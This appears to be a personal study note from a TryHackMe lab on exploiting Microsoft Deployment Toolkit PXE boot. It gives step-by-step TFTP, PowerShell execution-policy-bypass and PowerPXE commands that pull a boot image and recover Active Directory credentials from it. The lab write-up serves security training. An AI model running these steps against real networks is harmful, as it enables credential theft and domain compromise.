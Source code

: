 # Microsoft Deployment Toolkit

- Microsoft service that assists with automating the deployment of Microsoft OS's

- Organizations use services such as MDT to help deploy new images in the across the estate efficiently

- Base images can be maintained and updated in a central location

# SCCM

- MDT is integrated with SCCM

- MDT is used to create + manage + host PXE boot images

- PXE boot is integrated with DHCP

- If DHCP assigns an ip lease, the host is allowed to request the PXE boot image and start the network installation process

## PXE Boot Process
![Alt text](<../../Images/PXE Boot Process.png>)

Once the process above is performed, the client will use a TFTP connection to download the PXE boot image.

We can exploit the PXE boot image process for 2 different purposes:

- Inject a privilege escalation vector (Local Admin Account) to gain admin access to the operating system once the PXE boot has been completed

- Perform password scraping attacks to recover AD credentials used during the installation

# PXE Boot Image Retrieval

- Skip the part where we attempt to request an IP + PXE Boot preconfigure details from DHCP

- 1st piece of information regarding the PXE Boot preconfigure received via DHCP is the IP of the MDT server

- 2nd piece of information received would be the names of BCD files

- BCD files store the information relevant to PXE Boots for the different types of architecture

Connect to http://pxeboot.za.tryhackme.com (MDT Server) to view the BCD files:

![Alt text](<../../Images/BCD Files.png>)

- Use TFTP to request each of the BCD files and enumerate configuration

- Focus on the BCD file of the x64 architecture

- Copy and store the full name of this file: x64{7B...B3}.bcd

### SSH into THMJMP1 (Windows Machine)

- Create a folder with your username (Cameron) and copy the powerpxe folder

<pre>
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir &lt;username&gt;
C:\Users\THM\Documents> copy C:\powerpxe &lt;username&gt;\
C:\Users\THM\Documents\> cd &lt;username&gt;
</pre>

- Use TFTP to download BCD file to read the configuration of the MDT Server
- BCD files are located in /TMP/ directory on MDT Server

<pre>
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{7B...B3}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
</pre>

- THMMDT Server ip address

<pre> nslookup thmmdt.za.tryhackme.com </pre>

- BCD file has now been recovered
- Use `powerpxe.ps1` to read contents
- Powerpxe is a PowerShell script that performs this type of attack

- `Get-WimFile` recover the locations of PXE Boot images in BCD file

<pre>

C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : PXE Boot Image Location
PXE Boot Image Location
</pre>

- WIM files are bootable images in Windows Imaging Format
- Now we have location of PXE Boot Image. we can use TFTP to download it

<pre>
PS C:\Users\THM\Documents\am0> tftp -i THMMDT IP GET "PXE Boot Image Location" pxeboot.wim
</pre>

# Recover Credentials from PXE Boot Image
- Use powerpxe to recover the credentials from bootstrap file

<pre> PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim </pre>